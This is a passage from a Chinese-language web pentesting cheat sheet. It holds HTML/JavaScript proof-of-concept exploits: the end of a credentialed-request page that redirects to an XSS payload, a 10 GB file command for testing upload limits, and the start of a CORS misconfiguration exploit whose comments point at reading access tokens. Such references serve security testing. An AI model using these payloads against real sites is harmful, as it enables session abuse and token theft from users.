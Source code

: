 ```text
  req.setRequestHeader("Accept", "*\/*");
  req.withCredentials = true;
  req.onreadystatechange = function () {
    if (req.readyState === 4) {
      executeXSS();
    }
  }
  req.send();
}

function executeXSS() {
  window.location.assign(host+'<URI with XSS>'+alert_payload);
}

submitRequest();
    </script>
  </body>
</html>
```

### 文件上传漏洞

在OS X上创建测试10g文件（对于测试文件上载限制很有用）：

```text
mkfile -n 10g temp_10GB_file
```

#### 无限制的文件上传

资源:

```text
http://nileshkumar83.blogspot.com/2017/01/file-upload-through-null-byte-injection.html
```

一些备忘录:[https://github.com/jhaddix/tbhm](https://github.com/jhaddix/tbhm)

#### CORS配置错误

用于测试的POC:

```text
<!DOCTYPE html>
<html>
  <body>
    <center>
      <h2>CORS POC Exploit</h2>

      <div id="demo">
        <button type="button" onclick="cors()">Exploit</button>
      </div>

      <script>
function cors() {
  var req = new XMLHttpRequest();
  req.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("demo").innerHTML = this.responseText;
      // If you want to print something out after it finishes:
      //alert(req.getAllResponseHeaders());
      //alert(localStorage.access_token);
    }
  };
  // If you need to set a header (you probably won't):
  // req.setRequestHeader("header name", "value");
  req.open("GET", "<site>", true);
```